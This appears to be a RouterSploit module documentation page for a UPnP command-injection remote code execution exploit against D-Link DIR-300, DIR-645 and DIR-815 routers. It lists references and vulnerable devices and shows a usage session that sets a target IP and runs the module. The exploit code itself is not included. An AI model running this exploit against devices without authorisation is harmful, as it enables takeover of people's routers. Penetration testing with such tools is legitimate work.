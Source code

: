 # D-Link DIR-300 & DIR-645 & DIR-815 UPNP RCE

## Description
Module exploits D-Link DIR-300, DIR-645 and DIR-815 UPNP Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* Zachary Cutlip # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://github.com/zcutlip/exploit-poc/tree/master/dlink/dir-815-a1/upnp-command-injection](https://github.com/zcutlip/exploit-poc/tree/master/dlink/dir-815-a1/upnp-command-injection)
* [http://shadow-file.blogspot.com/2013/02/dlink-dir-815-upnp-command-injection.html](http://shadow-file.blogspot.com/2013/02/dlink-dir-815-upnp-command-injection.html)
* [https://www.exploit-db.com/exploits/34065/](https://www.exploit-db.com/exploits/34065/)

## Vulnerable devices
* D-Link DIR-300
* D-Link DIR-645
* D-Link DIR-815

## Usage
```
rsf > use exploits/dlink/dir_300_645_815_upnp_rce
rsf (D-Link DIR-300 & DIR-645 & DIR-815 UPNP RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1


rsf (D-Link DIR-300 & DIR-645 & DIR-815 UPNP RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-300 & DIR-645 & DIR-815 UPNP RCE) > run
[*] Running module...
```
